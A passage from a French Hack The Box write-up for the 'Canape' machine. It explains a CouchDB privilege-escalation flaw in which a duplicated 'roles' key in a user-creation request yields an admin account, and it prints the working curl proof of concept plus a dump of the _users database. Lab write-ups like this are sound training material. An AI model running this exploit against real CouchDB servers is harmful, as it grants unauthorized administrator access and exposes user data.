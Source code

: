 ![HTB Canape CouchDB Fauxton web interface](https://github.com/devl00p/blog/raw/master/images/htb/canape_fauxton.png)

Cette version de *CouchDB* est vulnérable [à un exploit](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html) permettant de créer un compte administrateur.  

 Pour faire court l'exploit consiste à spécifier deux fois la liste des rôles (équivalent des groupes) de l'utilisateur dans le JSON envoyé lors de la requête de création. Comme il s'agit d'un dictionnaire seul une clé roles ne doit être prise en compte. Malheureusement pour *CouchDB* la première occurrence est appliquée alors que c'est la seconde qui est vérifiée.  

On reprend le PoC curl pour créer notre compte privilégié :  

```plain
curl -X PUT 'http://localhost:5984/_users/org.couchdb.user:devloop' --data-binary '{"type": "user", "name": "devloop", "roles": ["_admin"], "roles": [], "password": "devloop31337"}'
```

On peut dès lors accéder aux bases dont l’accès nous été auparavant refusé :  

```plain
$ curl http://127.0.0.1:5984/_users/_all_docs --basic -u devloop:devloop31337
{"total_rows":7,"offset":0,"rows":[
{"id":"_design/_auth","key":"_design/_auth","value":{"rev":"1-75efcce1f083316d622d389f3f9813f7"}},
{"id":"org.couchdb.user:admin","key":"org.couchdb.user:admin","value":{"rev":"1-85c75449e4a18a89022cd324134fc943"}},
{"id":"org.couchdb.user:cmon","key":"org.couchdb.user:cmon","value":{"rev":"1-93fd3e66474bd9dc366f9992987084b3"}},
{"id":"org.couchdb.user:devloop","key":"org.couchdb.user:devloop","value":{"rev":"1-e2d60a59ff3e436ae8eb38d196f33618"}},
{"id":"org.couchdb.user:eheheh","key":"org.couchdb.user:eheheh","value":{"rev":"1-e529ced09093ca45635c9d99ac9a3e91"}},
{"id":"org.couchdb.user:oops","key":"org.couchdb.user:oops","value":{"rev":"1-db9d6cc939e7e3d1a2f41cf91ab32828"}},
{"id":"org.couchdb.user:wooyun","key":"org.couchdb.user:wooyun","value":{"rev":"1-0993e3551c110ed487f341883eb28732"}}
]}
```